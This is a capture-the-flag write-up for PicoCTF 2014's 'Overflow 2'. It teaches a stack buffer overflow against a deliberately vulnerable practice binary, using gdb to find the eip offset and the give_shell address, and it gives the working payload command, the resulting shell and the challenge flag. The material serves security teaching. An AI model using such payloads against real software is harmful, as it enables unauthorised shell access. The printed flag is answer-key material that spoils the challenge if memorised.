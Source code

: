 ## Overflow 2 - 70 (Binary Exploitation) ##
#### Writeup by Oksisane

Created: 2014-11-11 23:19:09

Last modified: [2014-11-12 00:23:00](https://github.com/Oksisane/PicoCTF-2014-Writeups/commits/master/binary_exploitation/overflow_2.md)


### Problem ###

This problem has a buffer overflow vulnerability! Can you get a shell? You can solve this problem interactively [here](https://picoctf.com/problem-static/binary/Overflow2/overflow2.html), and the source can be found [here](https://picoctf.com/problem-static/binary/Overflow2/overflow2.c).

### Hint ###

How can you run the give_shell function?

## Answer ##

### Overview ###

Implement basic [ROP](http://en.wikipedia.org/wiki/Return-oriented_programming) to call `give_shell`.

### Details ###

I'm going to assume you are familiar with the basics of a buffer overflow. If not, read the write-up for [Overflow 1](overflow1.md).

Let's get started! In this problem we are going to learn how to use the basics of  [ROP](http://en.wikipedia.org/wiki/Return-oriented_programming) to control the flow of a program and call this function:
```c
/* This never gets called! */
void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}
```
#####What makes this vulnerability possible
When we call `vuln()`, a `return address` is pushed onto the stack. This address tells the program what to do when it is finished executing the instructions defined inside `vuln()`. In our example:
```c
int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}
```
The `return address` would point to `return 0;`, the next instruction after the call to `vuln`. By using the same sort of buffer overflow we did in `overflow 1` we can overflow our buffer into the memory containing the `return address` (the register that stores this is called `eip`). Then we can change the value of the return address to whatever we want (which will be the start of the `give_shell()` function in this case). Once the program is finished executing `vuln()` it will read our fake return address and jump to our shell!

Before we are finished we need a few pieces of information to actually execute the exploit. The first thing we need to know is how far up the stack to write. We can figure this out using `gdb`, a program debuging tool. This is how you start gdb in the shell:
```bash
pico89244@shell:~$ cd /home/overflow2/
pico89244@shell:/home/overflow2$ gdb overflow2
GNU gdb (Ubuntu 7.7-0ubuntu3.1) 7.7
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from overflow2...(no debugging symbols found)...done.
(gdb)
```
Next, we need to set the input to our program. To do this we type:
```bash
set args `python -c 'print "A"*30'`
```
Finally, we have to run the program in gdb. To do this we simply type `run`. You should see this output:
```bash
(gdb) set args `python -c 'print "A"*30'`
(gdb) run
Starting program: /home/overflow2/overflow2 `python -c 'print "A"*30'`

Program received signal SIGSEGV, Segmentation fault.
0x08004141 in ?? ()
(gdb)
```
See the return address, `0x08004141`? The `4141` are our A values! Since we overwrote half the address with 30 values of `A` as our argument, this tells us that `eip` occupies positions 28-32 above the base of our stack, or 12 above our 16 character buffer. In other words, by writing A*28 and then 1234, 1234 would be our new return address. Now that we know how to change `eip` all we need to know is what location we should change `eip` to. Still in gdb, we can find the address of the `give_shell()` function by running
```bash
(gdb) print &give_shell
$1 = (<text variable, no debug info> *) 0x80484ad <give_shell>
(gdb)
```
Nice! We now know `0x80484ad` is the address of `give_shell`.

With these two pieces of knowledge, let's exit gdb and construct our final exploit :
```bash
./overflow2  `python -c 'print "A"*28 + "\xad\x84\x04\x08"'`
```

We print `A` 28 times to write up the stack to `eip`, then `0x80484ad`(in little edian) to tell the function to jump to `give_shell`. Let's run it:
```
pico89244@shell:/home/overflow2$ ./overflow2  `python -c 'print "A"*28 + "\xad\x84\x04\x08"'`
$ whoami
pico89244
$ cat flag.txt
controlling_%eip_feels_great
```
Sure enough, this gives us our shell and the flag!
### Flag ###

    controlling_%eip_feels_great





